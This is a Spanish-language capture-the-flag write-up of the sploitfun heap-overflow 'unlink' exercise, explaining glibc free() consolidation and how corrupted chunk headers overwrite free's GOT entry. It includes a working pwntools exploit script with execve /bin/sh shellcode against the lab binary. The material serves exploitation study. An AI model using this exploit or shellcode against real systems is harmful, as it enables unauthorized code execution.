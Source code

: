 ```yaml
---
date: 2024-10-20
tier: medium
author: naibu3
platform: sploitfun
---
```

# Overview

En este ejercicio de la plataforma [sploitfun](https://sploitfun.wordpress.com/2015/02/26/heap-overflow-using-unlink/) vamos a explotar una técnica de [[Heap Overflow]] conocida como [[unlink]].

# Reconocimiento

Se nos da el siguiente programa:

```c
/* 
 Heap overflow vulnerable program. 
*/

#include <stdlib.h>
#include <string.h>

int main( int argc, char * argv[] )
{
        char * first, * second;

first = malloc( 666 ); /*[1]*/
second = malloc( 12 ); /*[2]*/
if(argc!=1) 
	strcpy( first, argv[1] ); /*[3]*/

free( first ); /*[4]*/
free( second ); /*[5]*/

return( 0 ); /*[6]*/
}
```

Podemos ver que en la línea 3 se produce un [[Heap Overflow]] ya que se copia el input del usuario en `first` sin ninguna comprobación. El heap se vería así:

![[unlink1.png]]

## Técnica [[unlink]]

> [_Unlink_](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_unlink_snip.c):  The main idea of this technique is to trick ‘glibc malloc’ to unlink the ‘second’ chunk. While unlinking GOT entry of free would get overwritten with shellcode address!! After successful overwrite, now when free is called by vulnerable program at line [5], shellcode would get executed. Not very clear? No problem, first lets see what ‘glibc malloc’ does when free gets executed.

Es decir, queremos hacer que el chunk `second` sea "unlinkeado", de forma que cuando se esté desenlazando, la entrada en la [[GOT]] de `free` se sobrescriba con un [[Shellcodes|shellcode]] y al llamarse en la línea 5, se ejecute dicho shellcode.

### Explicación

Sin la influencia de un atacante, **free** hace lo siguiente (para chunks [*non mmaped*](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_free_snip.c#L10), es decir fruto de una llamada a `mmap`):

- Consolidar hacia detrás (**consolidate backwards**):
	- Comprueba si *el chunk previo está libre* - Si el actual tiene el bit `PREV_INUSE (P)` en 0. En nuestro caso no está libre (`first` tiene el bit activo). Por defecto, el chunk previo al primer chunk del heap tiene este bit activo aunque no esté libre.
	- *Si está libre*, se desenlaza (**unlink**) el chunk previo de su *bin*, se suman los tamaños del actual y el anterior, y se mueve el chunk pointer al chunk previo. En nuestro caso, no está libre, por lo que no se realiza esta operatoria.
- Consolidar hacia delante (**consolidate forward**):
	- Comprueba si *el siguiente chunk está libre* - Comprueba si el siguiente al siguiente tiene el bit `PREV_INUSE (P)` en 0, para ello avanza al siguiente chunk sumando `size` al chunk pointer, y repite la operación para llegar al siguiente. En nuestro caso, comprobará el bit del `top`, que dirá que el anterior (`second`) no está libre.
	- *Si está libre*, se desenlaza (**unlink**) el chunk siguiente de su *bin*, se suman los tamaños del actual y el siguiente. En nuestro caso, no está libre, por lo que no se realiza esta operatoria.
- Finalmente, en caso de realizarse una consolidación, se añade el resultado a la bin correspondiente.

# Explotación

Pongamos ahora, que mediante el [[Heap Overflow]] de la línea 3, un atacante sobrescribe las cabeceras de `second` de forma que quedan:

```
prev_size = PREV_INUSE bit a 0 (numero par)
size = -4
fd = dirección de free – 12
bk = dirección de un shellcode
```

Como hemos logrado manipular las cabeceras, al invocarse **free**, el comportamiento será diferente:

1. Como *no es mmaped*, trata de consolidar:
2. Consolidar hacia atrás:
	- Comprueba si el chunk previo está libre, en este casó lo está, pero al ser `first` el chunk siguiente al primer chunk del heap, tiene por defecto el bit `PREV_INUSE (P)` activado por defecto. Por tanto, no podemos consolidar hacia atrás.
3. Consolidar hacia delante:
	- Normalmente, el siguiente chunk al siguiente sería `top`. Sin embargo, como hemos sobrescrito el tamaño de `second` con `-4`, el siguiente chunk empezaría a partir de un offset de 4 bytes del `second`, tratando el campo `PREV_INUSE (P)` de `second` como el del siguiente chunk, como hemos puesto un valor par, interpretará que es 0, es decir que está libre.
	- Como está "libre", consolida hacia delante:
		1. Copia `fd` y `bk` de `second` en las variables `FD` y `BK`, en nuestro caso:  `FD = dirección de free - 12` y `BK = direccion de un shellcode`.
		2. `BK` se copia 12 bytes después de `FD`, en nuestro caso, apunta a la dirección en la [[GOT]] de *free*, de forma que en caso de llamar a *free*, se ejecutará el shellcode.
4. Finalmente se añade el chunk consolidado a una bin.

El heap después de introducirse los datos se vería:

![[unlink2.png]]

Sabiendo todo esto, podemos crear un script en [[python]] utilizando [[pwntools]]:

```python
#!/bin/python3
from pwn import *

# Dirección de la función 'free' en la GOT (obtenida con objdump)
FUNCTION_POINTER = 0x0804978c 
# Dirección de la variable 'first' en el ejecutable vulnerable
CODE_ADDRESS = 0x0804a008 + 0x10 

# Nombre del binario vulnerable
VULNERABLE = './vuln'
DUMMY = 0xdefaced
PREV_INUSE = 0x1

# Shellcode
shellcode = (
    b"\xeb\x0a"          # Jump 10 bytes
    b"ssppppffff"        # Si no hacemos este salto, la llamada a unlink nos corrompe el shellcode
    b"\x31\xc0"          # xor eax, eax
    b"\x50"              # push eax
    b"\x68\x2f\x2f\x73\x68"  # push '//sh'
    b"\x68\x2f\x62\x69\x6e"  # push '/bin'
    b"\x89\xe3"          # mov ebx, esp
    b"\x50"              # push eax
    b"\x89\xe2"          # mov edx, esp
    b"\x53"              # push ebx
    b"\x89\xe1"          # mov ecx, esp
    b"\xb0\x0b"          # mov al, 11 (syscall execve)
    b"\xcd\x80"          # int 0x80 (syscall)
)

# Conexión al binario vulnerable
io = process(VULNERABLE)

# Generar payload
payload = b""
payload += p32(DUMMY)  # fd of first chunk
payload += p32(DUMMY)  # bk of first chunk
payload += p32(DUMMY)  # fd_nextsize of first chunk
payload += p32(DUMMY)  # bk_nextsize of first chunk
payload += shellcode   # Copiar shellcode

# Padding
padding_length = 680 - 4*4 - (4*4 + len(shellcode))
payload += b"B" * padding_length

# Campos del segundo chunk
payload += p32(DUMMY & ~PREV_INUSE)  # prev_size of second chunk
payload += p32(-4)  # size of second chunk
payload += p32(FUNCTION_POINTER - 12)  # fd del segundo chunk
payload += p32(CODE_ADDRESS)  # bk del segundo chunk (dirección del shellcode)

# Enviar el payload
io.sendline(payload)

# Interactuar con la shell
io.interactive()
```

Si ejecutamos, veremos que somos capaces de spawnear una shell.

Sin embargo, a día de hoy, existen diversas protecciones que prevendrán este ataque:

- **Double free check**
- **Invalid next size**
- **Corrupted double linked list**

Por lo que aunque en sistemas antiguos podamos realizarlo, para implementaciones más modernas debemos utilizar técnicas más sofisticadas.